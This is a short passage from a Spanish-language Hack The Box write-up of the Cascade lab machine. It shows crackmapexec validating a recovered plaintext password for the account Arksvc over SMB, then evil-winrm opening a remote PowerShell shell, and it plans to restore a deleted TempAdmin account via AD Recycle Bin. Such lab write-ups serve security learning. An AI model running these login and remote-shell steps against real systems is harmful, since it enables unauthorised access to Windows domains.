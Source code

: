 <img src="/writeups/assets/img/Cascade-htb/7.png" alt="">

La valido con crackmapexec

```null
crackmapexec smb 10.10.10.182 -u 'Arksvc' -p 'w3lc0meFr31nd'
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\Arksvc:w3lc0meFr31nd 
```

Y me conecto por winrm

```null
evil-winrm -i 10.10.10.182 -u 'Arksvc' -p 'w3lc0meFr31nd'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\arksvc\Documents> 
```

Este usuario pertenece a AD Recycle Bin, por lo que puedo restaurar la cuenta temporal (TempAdmin) que fue eliminada según la nota que leí antes
